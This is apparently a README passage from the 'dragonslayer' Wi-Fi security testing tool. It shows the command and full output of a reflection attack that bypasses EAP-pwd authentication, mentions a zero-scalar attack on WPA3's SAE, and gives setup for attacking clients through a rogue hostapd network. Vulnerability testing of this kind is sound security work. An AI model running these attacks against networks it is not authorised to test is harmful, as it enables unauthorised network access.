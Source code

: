 To test whether an EAP-pwd server is vulnerable to a reflection attack, start `dragonslayer-client.sh` using the `-a 0` parameter. You must also specify the wireless interface being used with the `-i` parameter. For example:

	[mathy@mathy-work dragonslayer]$ sudo ./dragonslayer-client.sh -i wlp2s0 -a 0
	Successfully initialized wpa_supplicant
	wlp2s0: CTRL-EVENT-REGDOM-CHANGE init=DRIVER type=WORLD
	wlp2s0: CTRL-EVENT-REGDOM-CHANGE init=DRIVER type=COUNTRY alpha2=US
	wlp2s0: SME: Trying to authenticate with 38:2c:4a:c1:69:c0 (SSID='dragonblood' freq=5180 MHz)
	wlp2s0: Trying to associate with 38:2c:4a:c1:69:c0 (SSID='dragonblood' freq=5180 MHz)
	wlp2s0: Associated with 38:2c:4a:c1:69:c0
	wlp2s0: CTRL-EVENT-SUBNET-STATUS-UPDATE status=0
	wlp2s0: CTRL-EVENT-EAP-STARTED EAP authentication started
	wlp2s0: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=52
	wlp2s0: CTRL-EVENT-EAP-METHOD EAP vendor 0 method 52 (PWD) selected
	EAP-PWD (peer): server sent id of - hexdump_ascii(len=21):
	     74 68 65 73 65 72 76 65 72 40 65 78 61 6d 70 6c   theserver@exampl
	     65 2e 63 6f 6d                                    e.com           
	EAP-pwd: provisioned group 19
	[03:22:11] 38:2c:4a:c1:69:c0: Reflected server scalar and element in commit frame
	[03:22:11] 38:2c:4a:c1:69:c0: Skipping verification of recieved confirm value
	[03:22:11] 38:2c:4a:c1:69:c0: Reflected confirm value in confirm frame
	wlp2s0: CTRL-EVENT-EAP-SUCCESS EAP authentication completed successfully
	[03:22:11] 38:2c:4a:c1:69:c0: AP is initiating 4-way handshake => server is vulnerable to reflection attack!
	wlp2s0: PMKSA-CACHE-ADDED 38:2c:4a:c1:69:c0 0
	[03:22:12] 38:2c:4a:c1:69:c0: AP is initiating 4-way handshake => server is vulnerable to reflection attack!
	[03:22:13] 38:2c:4a:c1:69:c0: AP is initiating 4-way handshake => server is vulnerable to reflection attack!
	[03:22:14] 38:2c:4a:c1:69:c0: AP is initiating 4-way handshake => server is vulnerable to reflection attack!

The tool will display **server is vulnerable to reflection attack!** if it is vulnerable. If this message is not displayed, try executing the attack several times. If the server is never detected as being vulnerable, it is not vulnerable to this specific attack.


## Zero-scalar attack against WPA3's SAE

**TODO: Small description**


# Testing attacks against the client

## Preperation

First modify `dragonslayer/hostapd.conf` and **edit the line `interface=` to specify the Wi-Fi interface** that will be used to execute the tests. Note that for all tests, once the script is running, you must let the device being tested connect to the **network "dragonslayer" with as username "bob"**. The password can be anything. You can change settings of the AP by modifying `dragonslayer/hostapd.conf`.
